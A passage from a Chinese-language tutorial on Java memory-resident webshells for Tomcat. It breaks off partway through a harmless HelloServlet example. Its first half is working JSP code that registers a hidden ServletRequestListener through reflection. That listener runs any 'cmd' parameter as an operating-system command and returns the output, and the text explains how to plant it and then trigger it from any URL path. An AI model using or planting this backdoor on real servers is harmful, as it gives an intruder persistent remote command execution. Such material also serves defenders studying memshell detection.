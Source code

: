 ```plain
    public class MyListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    Field requestFiled = req.getClass().getDeclaredField("request");
                    requestFiled.setAccessible(true);
                    Request request = (Request) requestFiled.get(req);
                    request.getResponse().getWriter().write(out);
                } catch (Exception e) {}
            }
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {

        }
    }
%>

<%
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listener = new MyListener();
    context.addApplicationEventListener(listener);
%>
```

先访问 listenMemshell.jsp 生成内存马，然后访问任意路径，加上 cmd 参数即可命令执行

## 6\. Servlet

### 6.1 例子

创建 HelloServlet 类

```plain
package org.example.servlet;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet(value = "/hello", name = "hello")
public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doGet(req, resp);
        System.out.println("doget");
    }

    @Override
```